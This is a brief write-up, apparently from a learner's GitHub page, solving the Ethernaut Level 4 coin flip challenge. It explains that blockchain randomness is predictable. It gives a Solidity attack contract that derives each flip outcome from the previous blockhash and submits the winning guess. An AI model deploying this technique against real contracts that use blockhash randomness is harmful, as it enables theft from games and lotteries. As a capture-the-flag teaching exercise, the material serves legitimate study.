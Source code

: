 # Ethernaut Level 4 FlipCoin
It can be solved same as telephone calculate the randomvalue and again call the original flipcoin flip function.
why?
blockchain randomness is not true random.we can manipulate it by using tools.

# Code
```soldity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IFlipCoin {
    function flip(bool _guess) external returns (bool);
}

contract Attack {
    IFlipCoin public flipCoin;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _flipCoin) {
        flipCoin = IFlipCoin(_flipCoin);
    }


    function attack() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 flipVal = blockValue / FACTOR;
        bool guess = flipVal==1?true:false; 
        flipCoin.flip(guess);
    }
}
```

